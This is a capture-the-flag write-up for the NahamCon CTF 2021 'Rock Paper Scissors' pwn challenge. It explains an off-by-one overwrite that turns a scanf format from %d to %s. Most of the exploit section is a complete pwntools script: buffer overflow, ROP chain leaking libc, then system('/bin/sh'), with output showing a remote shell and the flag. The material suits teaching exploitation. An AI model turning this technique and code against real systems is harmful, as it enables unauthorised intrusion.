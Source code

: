 # NahamCon CTF 2021

## Rock Paper Scissors [medium]

> Author: @M_alpha#3534
>
> How about a friendly game of rock-paper-scissors? 
>
> [rps](rps) [libc-2.31.so](libc-2.31.so)

Tags: _pwn_ _x86-64_ _bof_ _rop_ _format-string_ _scanf_


## Summary

A `read` statement is allowed to overshoot its buffer by one, allowing an attacker to change the LSB of a pointer from static format string `%d` to static format string `%s`.  This then opens up a classic `scanf` `%s` buffer overflow.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE and no canary, ripe for _rop_ and _bof_.  No GOT attacks however, _gotta_ use what we _got_.

### Decompile with Ghidra

```c
void FUN_00401313(void)
{
  int iVar1;
  time_t tVar2;
  int local_14;
  int local_10;
  char local_9;
  
  local_9 = '\x01';
  tVar2 = time((time_t *)0x0);
  srand((uint)tVar2);
  while (local_9 != '\0') {
    iVar1 = rand();
    local_10 = iVar1 % 3 + 1;
    FUN_004012c9();
    __isoc99_scanf(PTR_DAT_00404028,&local_14,&local_14);
    getchar();
    if (local_10 == local_14) {
      puts("Congrats you win!!!!!");
    }
    else {
      puts("You lose!");
    }
    putchar(10);
    printf("Would you like to play again? [yes/no]: ");
    read(0,&DAT_00404010,0x19);
    iVar1 = strcmp("no\n",&DAT_00404010);
    if (iVar1 == 0) {
      local_9 = '\0';
    }
    else {
      iVar1 = strcmp("yes\n",&DAT_00404010);
      if (iVar1 == 0) {
        local_9 = '\x01';
      }
      else {
        puts("Well you didn\'t say yes or no..... So I\'m assuming no.");
        local_9 = '\0';
      }
    }
    memset(&DAT_00404010,0,4);
  }
  return;
}
```

`FUN_00401313` is the vulnerable function, specifically the line `read(0,&DAT_00404010,0x19)`, that reads up to `0x19` (25) bytes into global `DAT_00404010` (which is only 24 bytes length), that can then be used to overwrite the LSB of global `PTR_DAT_00404028`.  By default `PTR_DAT_00404028` is pointing to a static string `%d`, by changing the last byte to `0x08` we can now have it point to the static string `%s`.

> Load this up in Ghidra and look around, you'll see it.

With a 2nd pass and `%s` setup for `scanf` we can simply overflow the buffer.


## Exploit

Standard fare pwntools:

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./rps')
binary.symbols['rps'] = 0x401313

if args.REMOTE:
    p = remote('challenge.nahamcon.com', 31004)
    libc = ELF('./libc-2.31.so')
else:
    p = process(binary.path)
    libc = binary.libc
```

```python
p.sendlineafter('[y/n]: ','y')
p.sendlineafter('> ','1')

# move pointer from %d to %s
payload = b'yes\n\0' + (0x19 - 5 - 1) * b'A' + p8(0x8)
p.sendlineafter('[yes/no]: ',payload)
```

> Given how the random numbers here are 100% predictable, it would be easy to determine how to win each round, but that isn't what we are here to win, just pick _rock_ each time and move on.

When prompted to play again, clearly `yes\n` is the answer, followed by `\0`, some padding, and a `0x8` as the 25th byte to change the pointer used for the format-string from `%d` to `%s`.

```python
pop_rdi = next(binary.search(asm('pop rdi; ret')))

payload  = b''
payload += 0x14 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got.puts)
payload += p64(binary.plt.puts)
payload += p64(binary.sym.rps)

p.sendlineafter('> ',payload)
p.sendlineafter('[yes/no]: ','no')

_ = p.recv(6)
puts = u64(_ + b'\0\0')
libc.address = puts - libc.sym.puts
log.info('libc.address: ' + hex(libc.address))

payload  = b''
payload += 0x14 * b'A'
payload += p64(pop_rdi+1)
payload += p64(pop_rdi)
payload += p64(libc.search(b"/bin/sh").__next__())
payload += p64(libc.sym.system)

p.sendlineafter('> ',payload)
p.sendlineafter('[yes/no]: ','no')
p.interactive()
```

Round two is just like every other babyrop: leak libc, compute location of libc, loop back to vuln function, then call `system`.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/nahamconctf2021/rps/rps'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to challenge.nahamcon.com on port 31004: Done
[*] '/pwd/datajerk/nahamconctf2021/rps/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0x7f2f14cbd000
[*] Switching to interactive mode
$ id
uid=1000(challenge) gid=1000 groups=1000
$ cat flag.txt
flag{93548e97b8c15400117891070d84e5cc}
```

